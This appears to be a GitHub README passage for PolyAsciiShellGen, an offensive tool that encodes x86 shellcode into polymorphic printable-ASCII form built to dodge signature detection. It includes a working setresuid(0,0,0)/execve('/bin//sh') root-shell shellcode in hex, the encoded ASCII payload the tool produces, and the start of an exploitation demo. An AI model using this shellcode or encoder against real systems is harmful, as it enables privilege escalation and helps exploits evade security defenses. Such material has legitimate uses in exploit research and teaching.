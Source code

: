 Note: the `ascii_shellcode_size` must be padded on a 32-bit boundary.

**`<nop sleed factor>`**

The *`nop sleed factor`* parameter is a 32 bit unsigned integer use as a NOP
sleed multiplier to add an extra NOP sleed before the first instructions of the
decoded shellcode in order to reliable the decoded shellcode execution. This
factor is multiplied to four NOP instructions. So if N=4, 4*4=16 NOP
instructions are added before the shellcode.

**`<shellcode>`**

The `shellcode` parameters is the shellcode to encode in escaping format
`...\xcd\x80...` .If the lenght of the shellcode is not a multiplier of four bytes, it
is padded with extra NOP bytes in order to pass an exploit code aligned on a 32-bit
boundary to the underlying ASCII shellcode generator.

### Result

PolyAsciiShellGen print the resulting ASCII shellcode on the standard output. The
ASCII charset use for the ASCII shellcode building is the following.

```text
 %_01234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-
```

To encode the original shellcode, the underlying encoder uses values generated
randomly at each execution. So, the printable shellcodes generated have a
different signatures from the original shellcode at each new generation.

### Return Value

The command returns 0 if the ASCII shellcode generation is successful or 1 if
it fails.

### Exemple

Here an example with a `setresuid(0,0,0); execve(/bin//sh,0,0)` shellcode.

```text
$ ./PolyAsciiShellGen -270  10  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\xa4\xcd\x80\x31\xc0\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80"
TX-KKKK-KKKK-xjiiP\%0000%AAAA-9%%%-GJJJP-hhNh-th3%-Q6-5P-yyyZ-yZy6-L6---2-8-P-7KKd-%Kdz-%RkzP-xxxx-GGGx-0AFiP-OOOO-jOwO-iaraP-NN%N-a%%a-q44tP-%SS0-%SL5-7uC%P-FkFF-9pUhP-XXXX-XXXX-PXOFP-AAAj-0w2j-0w-vPPPPPPPPPP
```

## Demo

This demo shows an exploitation case with PolyAsciiShellGen, all the scripts
and compiled binaries uses here can be found in the
[demo directory of the PolyAsciiShellGen repository [3]](https://github.com/VincentDary/PolyAsciiShellGen/tree/master/demo).

```text
$ git clone https://github.com/VincentDary/PolyAsciiShellGen.git
$ cd PolyAsciiShellGen/demo
```
